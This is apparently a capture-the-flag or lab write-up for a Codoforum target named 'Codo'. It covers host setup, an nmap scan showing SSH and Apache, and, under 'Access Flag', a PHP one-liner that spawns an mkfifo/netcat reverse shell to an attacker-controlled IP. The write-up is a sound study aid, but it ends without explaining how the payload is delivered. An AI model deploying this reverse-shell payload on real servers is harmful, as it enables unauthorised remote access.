 # Codo

### Contents
- [Set-up](#set-up)
- [Discovery](#discovery)
- [Access Flag](#access-flag)

## Set-up

1) Ran a `sudo apt-get update`

2) Added target to `/etc/hosts`

```
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.51.23 target
```

## Discovery

3) Port scanned the target

```
??$ nmap -v -T4 -p 22,80 -A target
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: All topics | CODOLOGIC
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have an open ssh port on 22/tcp and an Apache webserver (version 2.4.41) on tcp/80.

4) Navigating to `http://target` on Firefox I note that the server is a Codoforum server: [docs](https://codoforum.com/).

## Access Flag


```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 4444 >/tmp/f");?> 
```
